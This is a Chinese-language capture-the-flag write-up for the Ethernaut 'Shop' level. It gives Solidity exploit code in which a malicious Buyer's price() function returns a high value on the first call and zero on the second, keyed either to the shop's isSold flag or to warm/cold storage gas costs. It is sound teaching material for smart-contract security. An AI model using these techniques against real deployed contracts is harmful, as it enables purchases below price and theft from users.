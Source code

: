 # Shop

## 题目描述

[原题 in Sepolia](https://ethernaut.openzeppelin.com/level/0x691eeA9286124c043B82997201E805646b76351a)

以低于要求的价格从商店买到商品.

## 运行

根据[Foundry 官方文档](https://getfoundry.sh/)配置好运行环境后，于本项目下执行下列命令：

```sh
$ cd WTF-CTF

$ forge test -C src/Ethernaut/Shop -vvvvv
```

## 功能简述

只要两次调用price的结果不同即可。view函数不能修改变量，只能读取变量。但如果某一变量进行了改变，view函数是不会检查的

```solidity
function buy() public {
	Buyer _buyer = Buyer(msg.sender);

	if (_buyer.price() >= price && !isSold) {
		isSold = true;
		price = _buyer.price();
	}
}
```

`Shop合约`的`buy函数`在两次`price()`调用中改变了`isSold`的值，所以我们可以通过`isSold`的具体值而返回不同的价格以使用更低的价格购买。

```solidity
function price() external view returns (uint256) {
	if (Shop(shop).isSold()) {
		return 0;
	} else {
		return 200;
	}
}
```

那如果将`Shop合约`的`buy函数`修改为这样，如何进行攻击？

```solidity
function buy() public {
	Buyer _buyer = Buyer(msg.sender);

	if (_buyer.price() >= price && !isSold) {
		price = _buyer.price();
		isSold = true;
		}
}
```

sload操作码会根据插槽的冷暖收取不同的gas值。

> If the accessed address is warm, the dynamic cost is 100. Otherwise the dynamic cost is 2100. See section [access sets](https://www.evm.codes/about).

如果在一次交易中读取了同一个storage变量，第二次读取时所消耗的gas费用会更低。

所以，可以在view函数中读取一个storage变量，根据gas消耗的差值来判断是否是第一次调用。

```solidity
function price() external view returns (uint256) {
	uint256 gasleftBefore = gasleft();
	justcostGas + 1;
	if (gasleftBefore - gasleft() >= 2000) {
		return 200;
	} else {
		return 0;
	}
}
```

